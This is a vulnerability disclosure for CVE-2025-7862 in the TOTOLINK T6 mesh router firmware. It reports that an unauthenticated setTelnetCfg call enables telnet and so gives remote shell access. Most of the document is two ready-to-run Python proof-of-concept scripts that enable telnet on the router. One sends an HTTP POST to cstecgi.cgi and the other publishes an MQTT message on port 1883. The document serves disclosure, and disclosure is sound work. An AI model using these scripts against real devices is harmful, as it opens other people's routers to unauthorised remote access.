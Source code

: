 # [CVE-2025-7862](https://vuldb.com/?id.316975)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

An attacker can have remote shell on TOTOLINK Mesh Wifi T6 by turn on the `telnet` service.

# Vulnerability details

`setTelnetCfg` can be called to enable `telnet` service without authen. An attacker can send HTTP POST packet.<br>
Or attacker can send `MQTT` packet on port `1883`.

# POC HTTP

```python
import requests, sys

if len(sys.argv) != 2:
    data = b'''
    {
        "topicurl":"setTelnetCfg",
        "telnet_enabled":"1"
    }
    '''

    url = f"http://192.168.0.1/cgi-bin/cstecgi.cgi"

    requests.post(url, data=data)
```

# POC MQTT

```python
import paho.mqtt.client as mqtt
import sys

if len(sys.argv) != 2:
    data = b'''
    {
    "telnet_enabled":"1"
    }
    '''

    client = mqtt.Client()
    client.connect("192.168.0.1", 1883, 60)
    client.publish("totolink/router/setTelnetCfg",data)
```

# POC Video
[Video](https://www.youtube.com/watch?v=XeKu3tfeSME)